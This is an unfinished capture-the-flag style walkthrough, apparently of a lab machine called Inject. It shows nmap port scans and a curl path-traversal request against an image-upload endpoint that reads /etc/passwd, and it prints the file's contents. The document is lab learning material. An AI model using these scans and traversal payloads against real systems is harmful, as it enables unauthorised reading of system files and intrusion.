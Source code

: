 # Inject

First, run a standard scan with nmap to discover open ports !
```
sudo nmap -sS --min-rate 5000 --open -Pn -n -vvv -p- 10.10.11.204 -oG allPorts
```

To get the details and version
```
nmap -sC -sV -p22,8080 10.10.11.204 -oN targeted
```

After inspecting the web page at `http://10.10.11.204:8080`, you'll notice there's an `upload` section in the right corner! Let's intercept the request with Burp Suite!
```
//TODO
```

Trying to upload a file with .sh or .php extensions appears to be impossible. But when an image named `test.jpg` (for example) is uploaded, we get this URL in the response
```
http://10.10.11.204:8080/show_image?img=test.jpg
```

The `show_image` variable seems to be exploitable ! Let's attempt some trials with GET requests !
```
curl -s -X GET "http://10.10.11.204:8080/show_image?img=../../../../../../../etc/passwd" > passwd
```

Indeed, we have the ```/etc/passwd``` file from the machine! So we have an LFI vulnerability !!!
```
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
systemd-network:x:100:102:systemd Network Management,,,:/run/systemd:/usr/sbin/nologin
systemd-resolve:x:101:103:systemd Resolver,,,:/run/systemd:/usr/sbin/nologin
systemd-timesync:x:102:104:systemd Time Synchronization,,,:/run/systemd:/usr/sbin/nologin
messagebus:x:103:106::/nonexistent:/usr/sbin/nologin
syslog:x:104:110::/home/syslog:/usr/sbin/nologin
_apt:x:105:65534::/nonexistent:/usr/sbin/nologin
tss:x:106:111:TPM software stack,,,:/var/lib/tpm:/bin/false
uuidd:x:107:112::/run/uuidd:/usr/sbin/nologin
tcpdump:x:108:113::/nonexistent:/usr/sbin/nologin
landscape:x:109:115::/var/lib/landscape:/usr/sbin/nologin
pollinate:x:110:1::/var/cache/pollinate:/bin/false
usbmux:x:111:46:usbmux daemon,,,:/var/lib/usbmux:/usr/sbin/nologin
systemd-coredump:x:999:999:systemd Core Dumper:/:/usr/sbin/nologin
frank:x:1000:1000:frank:/home/frank:/bin/bash
lxd:x:998:100::/var/snap/lxd/common/lxd:/bin/false
sshd:x:113:65534::/run/sshd:/usr/sbin/nologin
phil:x:1001:1001::/home/phil:/bin/bash
fwupd-refresh:x:112:118:fwupd-refresh user,,,:/run/systemd:/usr/sbin/nologin
```